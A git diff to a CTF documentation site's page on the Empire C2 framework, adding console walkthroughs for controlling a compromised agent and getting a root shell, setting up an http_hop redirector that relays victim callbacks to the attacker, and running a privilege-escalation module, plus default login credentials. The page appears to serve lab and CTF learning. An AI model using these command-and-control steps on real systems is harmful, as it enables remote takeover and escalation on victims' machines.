

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/malware/c2/05-empire.md, in a window 1280 px wide and 1400 px high, scrolled down 1163 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 1793 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
add docker on empire

````diff
--- a/docs/malware/c2/05-empire.md
+++ b/docs/malware/c2/05-empire.md
@@ -10,7 +10,7 @@ description: Empire C2 introduction.
 ### Using Empire (CLI)
 
 1. Pull **Empire** docker image : `docker pull bcsecurity/empire:latest`
-2. Run **Empire** docker (in background) : `docker run -it -p 1337:1337 -p 5000:5000 -d bcsecurity/empire:latest`
+2. Run **Empire** docker (in background) : `docker run -it --net=host -d bcsecurity/empire:latest`
 3. List dockers running :
 
 ```bash
@@ -25,7 +25,7 @@ CONTAINER ID   IMAGE    ...
 
 1. Download **Starkiller** AppImage from [release](https://github.com/BC-SECURITY/Starkiller/releases/).
 2. Pull **Empire** docker image : `docker pull bcsecurity/empire:latest`
-3. Run **Empire** docker : `docker run -it -p 1337:1337 -p 5000:5000 bcsecurity/empire:latest`
+3. Run **Empire** docker : `docker run -it --net=host bcsecurity/empire:latest`
 4. Login on **Starkiller** : URL : `https://localhost:1337`, username : `empireadmin`, password : `password123`.
 
 ## Usage
@@ -71,3 +71,92 @@ exit
 (Empire: usestager/multi/bash) > back
 (Empire) >
 ```
+
+Interacts with agents :
+
+```bash
+# "run stager on victim"
+[+] New agent PZNAL7NS checked in
+[*] Sending agent (stage 2) to PZNAL7NS at 10.200.196.200
+(Empire) > agents
+
+ID │ Name      │ IP             │ ...
+1  │ PZNAL7NS* │ 10.200.196.200 │ ...
+(Empire: agents) > rename PZNAL7NS GITPROD
+(Empire: agents) > interact GITPROD
+(Empire: GITPROD) > help
+[...]
+(Empire: GITPROD) > shell
+[*] Exit Shell Menu with Ctrl+C
+(GITPROD)  > whoami
+root
+(GITPROD) /root > <CTRL+C>
+[!] Type exit to quit
+(Empire: agents) > kill GITPROD
+[>] Are you sure you want to kill GITPROD? [y/N] y
+[*] Kill command sent to agent GITPROD
+[*] Removed agent GITPROD from list
+```
+
+Redirect listener (hop listener) :
+
+`ATTACKER_MACHINE <- HOP_MACHINE <- VICTIM_MACHINE`
+
+```bash
+(Empire) > uselistener http_hop
+[...]
+(Empire: uselistener/http_hop) > set Host 10.200.196.200 # HOP_MACHINE listen IP
+[*] Set Host to 10.200.196.200
+(Empire: uselistener/http_hop) > set Port 15555 # HOP_MACHINE listen PORT
+[*] Set Port to 15555
+(Empire: uselistener/http_hop) > set RedirectListener listener1 # Listener on ATTACKER_MACHINE
+[*] Set RedirectListener to listener1
+(Empire: uselistener/http_hop) > execute
+[+] Listener http_hop successfully started
+
+# Default OutFolder is /tmp/http_hop/
+# If you are using docker you need to copy the folder to your host.
+$ sudo docker ps
+CONTAINER ID   IMAGE                    ...
+31c2211149a1   bcsecurity/empire:latest ...
+$ sudo docker cp 31c2211149a1:/tmp/http_hop/ .
+$ scp -r http_hop/ user@HOP_MACHINE:/tmp/http_hop/
+$ ssh user@HOP_MACHINE
+[user@HOP_MACHINE ~] cd /tmp/http_hop/
+[user@HOP_MACHINE ~] php -S 0.0.0.0:15555
+PHP 7.2.24 Development Server started at Mon Feb  7 12:29:05 2022
+Listening on http://0.0.0.0:15555
+Document root is /tmp/http_hop
+Press Ctrl-C to quit.
+# Then, make a new stager for VICTIM_MACHINE and executes it.
+[Mon Feb  7 12:44:44 2022] 10.200.81.150:49949 [200]: /admin/get.php
+[Mon Feb  7 12:44:45 2022] 10.200.81.150:49950 [200]: /admin/get.php
+[Mon Feb  7 12:44:45 2022] 10.200.81.150:49951 [200]: /news.php
+
+# On Empire
+[+] New agent U1WEADC3 checked in
+[*] Sending agent (stage 2) to U1WEADC3 at 10.200.81.200
+```
+
+Use module :
+
+```bash
+(Empire: agents) > interact U1WEADC3
+(Empire: U1WEADC3) > usemodule powershell/privesc/sherlock
+[*] Set Agent to U1WEADC3
+
+[...]
+(Empire: usemodule/powershell/privesc/sherlock) > execute
+[*] Tasked U1WEADC3 to run Task 1
+[*] Task 1 results received
+Job started: G4XF7U
+[*] Task 1 results received
+
+
+Title      : User Mode to Ring (KiTrap0D)
+MSBulletin : MS10-015
+CVEID      : 2010-0232
+Link       : https://www.exploit-db.com/exploits/11199/
+VulnStatus : Not supported on 64-bit systems
+[...]
+```
````
